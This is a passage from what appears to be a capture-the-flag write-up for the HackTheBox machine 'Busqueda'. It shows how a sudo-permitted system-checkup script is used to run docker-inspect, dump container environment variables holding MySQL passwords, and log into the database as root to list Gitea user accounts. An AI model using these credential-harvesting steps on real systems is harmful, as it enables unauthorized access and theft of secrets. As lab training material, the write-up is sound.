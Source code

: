 `docker-ps` will list the running containers and `docker-inspect` should list the details of a container including any environment variables. Since there is a gitea and a MySQL container running, there might be environment variable secrets in one of these containers. 

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

The `docker-inspect` action requires a format argument and container name.

{% raw %}
```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect "{{json .Config.Env}}" gitea | jq .
[
  "USER_UID=115",
  "USER_GID=121",
  "GITEA__database__DB_TYPE=mysql",
  "GITEA__database__HOST=db:3306",
  "GITEA__database__NAME=gitea",
  "GITEA__database__USER=gitea",
  "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
  "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
  "USER=git",
  "GITEA_CUSTOM=/data/gitea"
]
```
{% endraw %}

{% raw %}
```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect "{{json .Config.Env}}" mysql_db | jq .
[
  "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
  "MYSQL_USER=gitea",
  "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
  "MYSQL_DATABASE=gitea",
  "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
  "GOSU_VERSION=1.14",
  "MYSQL_MAJOR=8.0",
  "MYSQL_VERSION=8.0.31-1.el8",
  "MYSQL_SHELL_VERSION=8.0.31-1.el8"
]
```
{% endraw %}

### MySQL Access

Authenticating to the MySQL instance with the `gitea:jI86kGUuj87guWr3RyF` credentials into the mysql instance and dumping the users table in the gitea database, there is an adminstrator user alongside cody for the Gitea server. 

```bash
svc@busqueda:/var/www/app$ mysql -h 127.0.0.1 -u root -pjI86kGUuj87guWr3RyF gitea
mysql> select email from user;
+----------------------------------+
| email                            |
+----------------------------------+
| administrator@gitea.searcher.htb |
| cody@gitea.searcher.htb          |
+----------------------------------+
2 rows in set (0.00 sec)
```
